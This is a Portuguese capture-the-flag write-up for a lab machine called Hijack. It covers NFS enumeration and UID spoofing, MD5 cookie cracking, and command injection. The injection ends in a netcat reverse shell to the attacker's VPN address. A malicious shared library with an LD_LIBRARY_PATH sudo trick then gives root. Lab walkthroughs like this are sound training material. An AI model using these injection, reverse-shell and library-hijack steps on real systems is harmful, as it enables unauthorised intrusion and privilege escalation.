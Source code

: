 # _**Hijack CTF**_
![](hijack.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Temos um serviço FTP  
Tentando login anonimo, sem sucesso  
Mas temos um website, vamos investigar  
Nos links importantes, temos uma página de administrador e também uma página de login/criação de conta  
Primeiro, criamos a conta com as credenciais abaixo:
* **username**: teste
* **password**: teste123

Segundo, tentamos credenciais de administrador com SQLi, mas sem sucesso  
Um detalhe, é que ao inserir uma senha com **admin**, temos que a senha está errada, mas ao inserir um usuário aleatório, temos que o usuário não existe, confirmando possivelmente um usuário **admin**  
Terceiro, realizamos login via nossas credenciais criadas  
Nenhuma informação relevante foi encontrada  

## _**Ganhando acesso**_
Outro detalhe importante encontrado pelo nosso scan <mark>Nmap</mark> foi um serviço **RPCBIND**  
Vamos tentar realizar uma enumeração  
> ```bash
> showmount -e [ip_address]
> ```
![](mount_return.jpg)

Podemos perceber que qualquer _host_ pode montar o diretório  
Vamos fazer isso
> ```bash
> sudo mkdir -p /mnt/nfs_mount
> sudo mount -t nfs [ip_address]:/mnt/share /mnt/nfs_mount
> ```

Após montar e tentar acessar o arquivo, temos permissão negada  
Verificações foram feitas com ```ls -la /mnt/nfs_mount```, mas temos permissão negada também  
Isso significa que o sistema montou o NFS com sucesso, mas as permissões do diretório estão bloqueando acesso local  
O diretório está montado corretamente  
Outr comando que tentamos foi ```sudo ls -ln /mnt/nfs_mount```, mas com permissão negada  
Porém, isso nos indica que o diretório está montado, mas com política de exportação bloqueando leitura mesmo para root local  
Se o diretório foi exportado para um usuário específico, podemos criar um usuário local com o mesmo UID para enganar o sistema  
Verificamos com ```sudo stat /mnt/nfs_mount 2>/dev/null``` e temos retorno de UID 1003  
Para enganarmos o sistema NFS, vamos realizar os seguintes comandos abaixo  
> ```bash
> sudo groupadd -g 1003 nfsgrp
> sudo useradd -u 1003 -g nfsgrp nfsuser
> sudo su - nfsuser
> ls -la /mnt/nfs_mount
> ```
![](new_user_result.jpg)

E conseguimos ler o diretório!  
Porém, sem leitura do arquivo  
Foi necessário recriar o usuário, deletando ele primeiro, e executando este comando ```sudo useradd -m -u 1003 -g 1003 -s /bin/bash nfsuser```  
Apenas então, foi possível ler o arquivo _.txt_  
Nisto, encontramos credenciais para login via **FTP**  

![](ftp_login.jpg)

Executando o comando ```ls -la``` encontramos alguns arquivos e transferimos via GET para nossa máquina  
Em uma nota do _admin_, temos:  

![](admin_note.jpg)

Parece que o site tem proteção contra ataques _brute force_  
Mas também parece que temos um outro usuário além de _admin_ e também uma _wordlist_  
Após tentar 5 senhas, a conta _admin_ foi bloqueada por 5 minutos  
Tentar todas as senhas levará muito tempo  
Pensando um pouco, é bem incomum sites em CTF aceitarem cadastramento  
Vamos investigar um pouco esta conta que criamos  
Realizando login, é possível perceber que o _cookie_ da conta está criptografado em **base64**  
Ao decodificar o cookie, descobrimos que seu formato é 'USERNAME:HASH'  
Identificamos a hash como sendo MD5 através da ferramenta <mark>hash-identifier</mark>  
Procurando na Internet, encontrei um [script em python para conseguirmos descobrir a senha](https://github.com/Paxterson32/Hijack-THM/blob/main/script.py)  
É necessário alterar algumas informações no script  

![](admin_access.jpg)

No painel _../administration.php_, temos um local para inserir comandos  
Após algumas tentativas, inserindo ```service_name_random && id```, temos o retorno de **id**  
Vamos tentar um _reverse shell_  
O que funcionou foi: ```$(test nc [vpn_ip_address] 4444 -e /bin/bash)```  

![](reverse_shell.jpg)

## _**Escalando privilégios**_  
Investigando os arquivos _.php_ locais, encontramos a senha de **rick** em um destes arquivos  
Uma tentativa via **SSH** é feita e sucesso, temos login!  

![](sudo_l.jpg)

Listando as bibliotecas compartilhadas usadas pelo Apache2, podemos sequestrar uma delas criando um arquivo com o mesmo nome  
Criamos um pequeno programa em C para substituir uma das bibliotecas listadas e o compilamos com o nome exato  
Biblioteca escolhida: ```libcrypt.so.1```
> ```bash
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> 
> void __attribute__((constructor)) hijack() {
>         setresuid(0,0,0);
>         system("/bin/bash -p");
> }
> ```

Executamos então os seguintes comandos:
> ```bash
> gcc -shared -fPIC hijack.c -o /tmp/libcrypt.so.1
> sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
> ```

![](root.jpg)

Basta ir atrás das flags agora
